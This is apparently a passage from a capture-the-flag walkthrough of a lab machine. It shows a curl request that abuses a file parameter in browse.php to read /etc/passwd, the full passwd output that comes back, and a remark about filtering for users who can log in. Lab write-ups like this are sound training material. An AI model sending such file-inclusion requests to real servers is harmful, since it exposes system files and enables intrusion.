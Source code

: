 Got access to the /etc/passwd file

<pre>[root:~/Desktop/poison]# curl -s http://10.10.10.84/browse.php\?file\=/etc/passwd

root:*:0:0:Charlie &:/root:/bin/csh

toor:*:0:0:Bourne-again Superuser:/root:

daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin

operator:*:2:5:System &:/:/usr/sbin/nologin

bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin

tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin

kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin

games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin

news:*:8:8:News Subsystem:/:/usr/sbin/nologin

man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin

sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin

smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin

mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin

bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin

unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin

proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin

_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin

_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin

uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico

pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin

auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin

www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin

_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin

hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin

nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin

_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin

messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin

avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin

cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin

charix:*:1001:1001:charix:/home/charix:/bin/csh</pre>

I copied that to a file called passwdfile then did an inverted grep search of that file pulling out the users that have login abilities. I must remember that command in future its very useful!
